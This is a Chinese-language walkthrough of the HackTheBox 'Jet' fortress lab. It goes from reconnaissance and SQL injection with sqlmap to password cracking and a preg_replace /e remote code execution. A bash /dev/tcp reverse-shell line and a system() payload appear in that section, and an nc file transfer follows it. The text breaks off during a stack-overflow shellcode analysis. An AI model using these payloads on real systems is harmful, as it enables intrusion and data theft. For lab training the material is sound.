## About

达到`HTB`的`Hacker`等级后可以进入`Advanced Labs`，本文是关于`Fortresses`（堡垒）中的`Jet`挑战

## Connect

`Nmap`扫描结果如下

```
[root@kali] /home/kali/Jet
❯ nmap 10.13.37.10 -T4 -Pn -sS                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-18 15:06 CST
Nmap scan report for jet.com (10.13.37.10)
Host is up (0.38s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
2222/tcp open  EtherNetIP-1
5555/tcp open  freeciv
7777/tcp open  cbt
```

使用浏览器打开80端口即可获得`flag`

```
 JET{s4n1ty_ch3ck} 
```



## Digging in...

### Dig Command

`dig`（Domain Information Groper）命令是一个非常有用的 `DNS` 查询工具，可以帮助渗透测试者收集目标域名的 `DNS` 信息，从而更好地了解目标的网络结构和潜在攻击面。

以下是 `dig` 的一些常见用途：

1\. **解析域名**

- 获取目标域名对应的 IP 地址（A 记录）。

bash复制代码`dig example.com`

**用途**：确定目标服务器的 IP 地址，为后续扫描或攻击做准备。

2\. **查询特定的 DNS 记录**

- 查询 `MX`（邮件交换）、`NS`（域名服务器）、`CNAME`（别名记录）等信息。

bash复制代码`dig example.com MX      # 查询邮件服务器   dig example.com NS      # 查询权威域名服务器   dig example.com CNAME   # 查询别名记录`

**用途**：识别目标网络中的关键服务或基础设施。

3\. **反向 DNS 查询**

- 使用目标 IP 查询其域名。

bash复制代码`dig -x 192.0.2.1`

**用途**：帮助确定服务器的主机名，可能暴露出内部网络信息或与其他服务的关联。

### Dig Jet

```
dig @10.13.37.10 -x 10.13.37.10
```

`@`符号用来指定`dns`主机，`-x`是反向查询域名

```
[root@kali] /home/kali/Jet  
❯ dig @10.13.37.10 -x 10.13.37.10 

; <<>> DiG 9.20.2-1-Debian <<>> @10.13.37.10 -x 10.13.37.10
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 57681
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
; COOKIE: bfa9dd40818456c5010000006762761c5f63110cd3784e8d (good)
;; QUESTION SECTION:
;10.37.13.10.in-addr.arpa.      IN      PTR

;; ANSWER SECTION:
10.37.13.10.in-addr.arpa. 604800 IN     PTR     www.securewebinc.jet.

;; Query time: 388 msec
;; SERVER: 10.13.37.10#53(10.13.37.10) (UDP)
;; WHEN: Wed Dec 18 15:13:16 CST 2024
;; MSG SIZE  rcvd: 115
```

发现存在一个`www.securewebinc.jet`的域名，将其添加到`/etc/hosts`

进入到网站底部，找到`flag`

```
JET{w3lc0me_4nd_h@v3_fun!}
```



## Going Deeper

### dirsearch

使用`direarch`进行目录扫描，我发现了一个`/js`目录，在目录里面找到了一个`secure.js`

```
[root@kali] /home/kali/Desktop  
❯ dirsearch -u http://www.securewebinc.jet/js/ -t 50
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                     
                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/reports/http_www.securewebinc.jet/_js__24-12-18_15-20-45.txt

Target: http://www.securewebinc.jet/

[15:20:45] Starting: js/                                                                                                    
[15:21:38] 200 - 1KB - /js/secure.js                                     
                                                                             
Task Completed                              
```

访问`http://www.securewebinc.jet/js/secure.js`，得到的内容是这样的👇

```
eval(String.fromCharCode(102,117,110,99,116,105,111,110,32,103,101,116,83,116,97,116,115,40,41,10,123,10,32,32,32,32,36,46,97,106,97,120,40,123,117,114,108,58,32,34,47,100,105,114,98,95,115,97,102,101,95,100,105,114,95,114,102,57,69,109,99,69,73,120,47,97,100,109,105,110,47,115,116,97,116,115,46,112,104,112,34,44,10,10,32,32,32,32,32,32,32,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,114,101,115,117,108,116,41,123,10,32,32,32,32,32,32,32,32,36,40,39,35,97,116,116,97,99,107,115,39,41,46,104,116,109,108,40,114,101,115,117,108,116,41,10,32,32,32,32,125,44,10,32,32,32,32,101,114,114,111,114,58,32,102,117,110,99,116,105,111,110,40,114,101,115,117,108,116,41,123,10,32,32,32,32,32,32,32,32,32,99,111,110,115,111,108,101,46,108,111,103,40,114,101,115,117,108,116,41,59,10,32,32,32,32,125,125,41,59,10,125,10,103,101,116,83,116,97,116,115,40,41,59,10,115,101,116,73,110,116,101,114,118,97,108,40,102,117,110,99,116,105,111,110,40,41,123,32,103,101,116,83,116,97,116,115,40,41,59,32,125,44,32,49,48,48,48,48,41,59));
```

`ChatGPT`尝试解密后得到的原文👇，暴露出来一个新的路径，并且还有`stats.php`

```
function getStats() {
    $.ajax({
        url: "/dirb_safe_dir_rf9EmcEIx/admin/stats.php",
        success: function(result) {
            $('#attacks').html(result);
        },
        error: function(result) {
            console.log(result);
        }
    });
}
getStats();
setInterval(function() {
    getStats();
}, 10000);
```

针对这个`/dirb_safe_dir_rf9EmcEIx/admin/`目录再次进行扫描

```
[root@kali] /home/kali/Jet
❯ dirsearch -u http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/ -t 50 -i 200
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                     
                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/reports/http_www.securewebinc.jet/_dirb_safe_dir_rf9EmcEIx_admin__24-12-18_15-27-56.txt

Target: http://www.securewebinc.jet/

[15:27:56] Starting: dirb_safe_dir_rf9EmcEIx/admin/                                                                         
[15:28:25] 200 - 0B  - /dirb_safe_dir_rf9EmcEIx/admin/db.php             
[15:28:35] 200 - 3KB - /dirb_safe_dir_rf9EmcEIx/admin/login.php          
[15:28:51] 200 - 10B  - /dirb_safe_dir_rf9EmcEIx/admin/stats.php          
                                                                             
Task Completed     
```

进入`login.php`，`View-Source`得到`flag`

```
JET{s3cur3_js_w4s_not_s0_s3cur3_4ft3r4ll}
```



## Bypassing Authentication

### SQL Injection

进入登录页面，似乎用户名处存在`SQL`注入漏洞，而且是单引号闭合的，如下图所示。





但是无法直接绕过登录，前端页面只有两种回显，可以考虑使用布尔（`Bool`）盲注

将`POST`报文写入一个文件，然后使用`SQLmap`进行注入

```
[root@kali] /home/kali/Jet  
❯ sqlmap -r login.txt --dbs
```



存在`jetadmin`这个数据库

```
[root@kali] /home/kali/Jet  
❯ sqlmap -r login.txt -D jetadmin -T users -dump
```

在`user`表里存在`admin`的用户信息



```
97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084
```

使用`John The Ripper`进行密码爆破

```
[root@kali] /home/kali/Jet  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=Raw-SHA256 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Hackthesystem200 (?)     
1g 0:00:00:00 DONE (2024-12-18 16:03) 1.818g/s 20256Kp/s 20256Kc/s 20256KC/s Hannah.rules..Galgenwaard
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```

得到密码是：`Hackthesystem200`

登录进去，得到flag

```
JET{sQl_1nj3ct1ons_4r3_fun!}
```



## Command

### Preg\_match RCE

这个`Dashboard`里唯一能使用的功能就是`email`发送邮件

并且可以预览自己的邮件内容，这里进行抓包查看`POST`的`Body`，为了方便查看我将`PostData`进行了`urldecode`

```
POST /dirb_safe_dir_rf9EmcEIx/admin/email.php HTTP/1.1
Host: www.securewebinc.jet
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 299
Origin: http://www.securewebinc.jet
Connection: keep-alive
Referer: http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/dashboard.php
Cookie: PHPSESSID=id2a0g01fkqtieui776n5seib3
Upgrade-Insecure-Requests: 1
Priority: u=0, i

swearwords[/fuck/i]=make love&swearwords[/shit/i]=poop&swearwords[/ass/i]=behind&swearwords[/dick/i]=penis&swearwords[/whore/i]=escort&swearwords[/asshole/i]=bad person&to=123@qq.com&subject=123&message=<p>123<br></p>&_wysihtml5_mode=1
```

似乎里面有些参数会被替换？尝试这样发送邮件



得到的结果👇可以看到邮件内容被替换了



分析`Post`的参数可以发现，例如：`swearwords[/ass/i]=behind`，里面似乎是一个正则表达式，并且使`ass`忽略大小写转换为`behind`，如果将正则表达式改为`/e`修饰符那么就存在`preg_replace`的命令注入漏洞，这个也是在CTF中常见的考点。

这里可以拿一个示例进行分析

```
preg_replace（$badword， $replacement， $str）;
```

这里的`badword`也就是需要匹配的模式，这个是我们可以控制的

`replacement`也就是等号后面的值，`str`应该是`Message`中的内容

如果将`badword`指定为比如说`/ass/e`，`replacement`指定为一个系统函数命令那么就可以执行命令



如上图，手动去掉`message`的`html`标签，然后修改正则匹配和命令，然后`Forward`发送包，成功得到回显



我们可以将替换文本设置为👇，进行反弹`shell`，方便操作

```
system("echo%20' YourBase64Here '|base64%20-d|bash");
#  /bin/bash -i >& /dev/tcp/10.10.xx.xx/200  0>&1
```



直接读取flag

```
JET{pr3g_r3pl4c3_g3ts_y0u_pwn3d}
```



## Overflown

涉及到`Pwn`的知识我也不是很懂，就从我的角度进行分析。

在`/home`目录下发现一个二进制文件`leak`



使用nc将文件传出来看看

```
www-data@jet:/home$ nc 10.10.16.2 6666 < leak

[root@kali] /home/kali  
❯ nc -lvnp 6666 > leak 
```

`checksec`查看一下结构

```
[root@kali] /home/kali/Desktop  
❯ checksec leak        
[*] '/home/kali/Desktop/leak'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

查看`IDA`的伪代码，并没有看到其他的一些明显的`system`函数，应该是要自己写入

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  _init();
  printf("Oops, I'm leaking! %p\n", s);
  puts(aPwnMe);
  printf("> ");
  fgets(s, 512, stdin);
  return 0;
}
```

最开始暴露出来了数组`S`的地址，使用`Pwndbg`进行调试，可以看到栈区是存在`可读可写可执行`的权限的。因此可以考虑栈溢出中的`ret2shellcode`



大概思路就是，将`Shellcode`写入到数组S中，并且构造栈溢出使返回地址重新回到数组S端，并且继续执行`Shellcode`，至于执行完`Shellcode`后的返回地址，我们并不关心。可以对照下图看

